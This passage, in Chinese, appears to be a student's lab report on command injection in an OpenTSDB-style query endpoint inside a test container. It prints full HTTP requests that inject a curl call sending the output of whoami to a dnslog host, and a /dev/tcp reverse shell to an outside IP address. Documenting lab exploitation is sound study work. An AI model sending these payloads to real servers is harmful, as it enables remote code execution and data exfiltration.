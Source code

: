 ![屏幕截图 2023-11-11 141824](C:\Users\Lenovo\Pictures\Screenshots\屏幕截图 2023-11-11 141824.png)

进入容器中可见`touch /tmp/success`已成功执行：

![屏幕截图 2023-11-11 142012](C:\Users\Lenovo\Pictures\Screenshots\屏幕截图 2023-11-11 142012.png)

## 2、注入whoami命令，并使用DNS外带技术带出结果

发送如下数据包：

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27curl%20http://$(whoami).abcyrm.dnslog.pw%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

![屏幕截图 2023-11-11 151054](C:\Users\Lenovo\Pictures\Screenshots\屏幕截图 2023-11-11 151054.png)

回到dnslog网站刷新（前面的发包之后dnslog网站没记录，然后我换了一个dnslog网站又做了一遍，burp发包那里忘记截图了）

![屏幕截图 2023-11-11 151237](C:\Users\Lenovo\Pictures\Screenshots\屏幕截图 2023-11-11 151237.png)

可以看到显示用户名是root

## 3、反弹shell

发送下面的包：（system函数内的命令需要看容器内能执行哪一条就用哪一条。bash的不能用，会被识别成dash）

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27exec%205%3C%3E/dev/tcp/47.115.212.50/5000%3bcat%20%3C%265%20%7C%20while%20read%20line%3b%20do%20%202%3E%265%20%3E%265%3b%20done%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: 192.168.232.131:5010
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

可以看到连接结果：![屏幕截图 2023-11-11 153553](C:\Users\Lenovo\Pictures\Screenshots\屏幕截图 2023-11-11 153553.png)

# 实验五
